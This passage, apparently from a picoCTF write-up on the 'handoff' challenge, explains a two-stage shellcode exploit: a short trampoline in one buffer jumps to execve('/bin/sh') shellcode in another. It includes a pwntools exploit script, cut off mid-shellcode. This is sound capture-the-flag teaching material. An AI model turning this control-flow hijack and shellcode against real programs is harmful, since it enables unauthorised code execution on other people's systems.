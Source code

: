 ### Step 5: Final Control Flow

1. `vuln()` returns and executes `call rax`.
2. `call rax` jumps to `feedback`, where the trampoline shellcode lives.
3. Trampoline shellcode jumps to `msg`, where our real shellcode is.

---

### Why Two Stages?

We can't place full shellcode into `feedback` due to space constraints.
Instead:

* Stage 1: Trampoline shellcode in `feedback` (just 20 bytes)
* Stage 2: Full `/bin/sh` shellcode placed in `msg` via menu

---

## Exploit Code (Python/pwntools)

```python
from pwn import *

# === Setup context and load binary ===
context.binary = binary = ELF('./handoff', checksec=False)
context.terminal = ['tmux', 'splitw', '-h']  # Used with GDB debugging
context.log_level = 'debug'  # Show detailed logs during exploit

# === Start process (local or remote) ===
REMOTE = True
HOST = 'shape-facility.picoctf.net'
PORT = 53475

if REMOTE:
    p = remote(HOST, PORT)
else:
    p = process('./handoff')

# === Program interaction helpers ===
def create_recv(name):
    p.sendline(b'1')
    p.sendline(name)

def send_message(idx, message):
    p.sendline(b'2')
    p.sendline(str(idx).encode())
    p.sendline(message)

# === First stage: jmp shellcode to pivot to heap shellcode ===
jmp_shellcode = asm('''
    nop
    nop
    nop
    nop
    nop
    sub rax, 0x200
    sub rax, 0xcc
    jmp rax
''')

# === Second stage: execve("/bin/sh", NULL, NULL) ===
shellcode = asm('''
    lea rdi, [rip + binsh]
    xor esi, esi
```